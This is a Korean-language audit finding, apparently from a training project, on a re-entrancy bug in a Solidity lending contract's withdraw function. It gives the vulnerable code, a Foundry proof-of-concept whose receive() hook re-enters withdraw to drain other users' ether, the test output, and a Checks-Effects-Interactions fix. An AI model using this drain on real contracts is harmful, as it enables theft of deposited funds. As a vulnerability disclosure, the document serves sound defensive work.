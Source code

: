 # withdraw re-entrancy를 통한 담보 인출

## 설명

<aside>

### **키워드 : Vulnerability - Re-entrancy**

### **심각도 : Critical**

memory 키워드 사용으로 인해 shallow copy된 객체가 생성되는데, 객체는 지역변수에 불과한데 여기에 변화를 적용시킨 뒤 실제 변수에 적용하지 않은채 call을 하기 때문에 re-entrancy를 활용하여 lending service에 존재하는 모든 이더를 탈취할 수 있다.

</aside>

```solidity
VaultInfo memory tempVault = vaults[msg.sender];
require(
    tempVault.collateralETH - availableWithdraw >= _amount,
    "ERROR"
);
tempVault.collateralETH -= _amount;
(bool success, ) = payable(msg.sender).call{value: _amount}("");
vaults[msg.sender] = tempVault;
```

memory 키워드를 사용하여 생성한 `tempVault` 는 얕은 복사로 생성된 지역변수 객체인데 로직에서는 `tempVault.collateralETH` 에 대해 `_amount` 를 빼는 연산을 진행한 뒤 call을 통해 이더를 전달한다.

그리고 그 이후에야(call이 끝난 뒤) `vaults[msg.sender]` 를 변화한 값으로 덮어쓰게 된다.

따라서 re-entrancy로 접근한다면 또 다시 이전(변화 전) 객체를 복사하여 동일한 연산을 진행하고 이는 무한정으로 `_amount` 를 전송할 수 있는 취약점이 된다(정확히는 Lending service에 존재하는 만큼).

## PoC

```solidity
function testPOC() external {
        supplyUSDCDepositUser1();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        //
        vm.deal(address(this), 100000000 ether);
        lending.deposit{value: 100000000 ether}(address(0x00), 100000000 ether);

        console.log("before usdc", usdc.balanceOf(address(this)));
        (bool success, ) = address(lending).call(
            abi.encodeWithSelector(
                DreamAcademyLending.borrow.selector,
                address(usdc),
                50000000 ether
            )
        );
        console.log("after usdc", usdc.balanceOf(address(this)));
        count = 7 * 9;

        usdc.approve(address(lending), type(uint256).max);
        lending.withdraw(address(usdc), 11111111 ether);
        console.log(
            "Attack Result(usdc, ether), Lending's balance : ",
            usdc.balanceOf(address(this)),
            address(this).balance,
            address(lending).balance
        );
    }

    receive() external payable {
        while (count > 0) {
            --count;
            console.log("balance:", address(this).balance);
            lending.withdraw(address(usdc), 11111111 ether);
        }
    }
```

```solidity
Running 1 test for test/LendingTest.t.sol:Testx
[PASS] testPOC() (gas: 1436764)
Logs:
  before usdc 0
  after usdc 50000000000000000000000000
  balance: 11111111000000000000000000
  balance: 22222222000000000000000000
  balance: 33333333000000000000000000
...
  balance: 677777771000000000000000000
  balance: 688888882000000000000000000
  balance: 699999993000000000000000000
  Attack Result(usdc, ether), Lending's balance :  50000000000000000000000000 711111104000000000000000000 88888896000000000000000001
```

위의 PoC는 `100000000 ether` 를 예치한 뒤 최대(50%)로 대출을 한다.

```solidity
(bool success, ) = address(lending).call(
            abi.encodeWithSelector(
                DreamAcademyLending.borrow.selector,
                address(usdc),
                50000000 ether
            )
        );
----------------------
  before usdc 0
  after usdc 50000000000000000000000000
```

이후 re-entrancy할 횟수를 지정한다. 이는 Lending service에 존재하는 모든 이더를 탈취한 뒤 integer underflow가 발생하면 모두 rollback될 것이기에 `supplyEtherDepositUser2` 에서 예치한 금액과 횟수를 토대로 임의로 설정한 값이다. 횟수와 값을 바꾸어 최대 랜딩 서비스에 존재하는 모든 이더를 탈취할 수 있다.

`lending.withdraw(address(usdc), 11111111 ether);`

를 실행하면

```solidity
VaultInfo memory tempVault = vaults[msg.sender];
require(
    tempVault.collateralETH - availableWithdraw >= _amount,
    "ERROR"
);
tempVault.collateralETH -= _amount;
(bool success, ) = payable(msg.sender).call{value: _amount}("");
vaults[msg.sender] = tempVault;
```

코드에서 `tempVault.collateralETH` 값이 re-entrancy 하더라도 변하지 않고 고정이므로 아무런 조건 없이 re-entrancy를 반복하며 `_amount` 만큼 `msg.sender` 에게 전송하는 취약점이 발현된다.

```solidity
  Attack Result(usdc, ether), Lending's balance :  50000000000000000000000000 711111104000000000000000000 88888896000000000000000001
```

결과적으로 대출로 얻은 USDC 50000000 ether와 Re-entrancy로 빼낸 돈(내 예치금(담보) + 다른 유저들이 예치한 금액)을 얻게 된 것을 확인할 수 있다.

## 파급력

Re-entrancy를 통해 대출상태임에도 담보를 모두 빼낼 수 있으며, 심지어 Lending 서비스 전체의 이더를 탈취할 수 있는 취약점이기에 위험도는 매우 위험하다고 볼 수 있다.

또한 키워드를 잘못 사용하여 발생한 문제점이기에 취약점을 트리거함에 있어서도 별다른 특이사항이나 어려움이 존재하지 않는다.

## 해결 방법

```solidity
VaultInfo memory tempVault = vaults[msg.sender];
require(
    tempVault.collateralETH - availableWithdraw >= _amount,
    "ERROR"
);
tempVault.collateralETH -= _amount;
vaults[msg.sender] = tempVault;
(bool success, ) = payable(msg.sender).call{value: _amount}("");
```

call하기 전에 변화한 객체를 적용시킨 뒤 call을 하여 *`Checks-*Effects-Interactions` 패턴을 활용하여 re-entrancy를 통한 전체 ether 출금은 방지할 수 있다.

하지만 이 경우에도 대출금이 존재하고 대출 한계치에 도달하여 담보를 인출할 수 없는 상황임에도 불구하고 인출을 허용한다는 문제점이 존재한다.

따라서 인출하고자 하는 금액을 빼어도 Liquidation Threshold 비율을 만족하는지 체크하며 인출하도록 검사구문의 식을 수정해야 할 것이다.
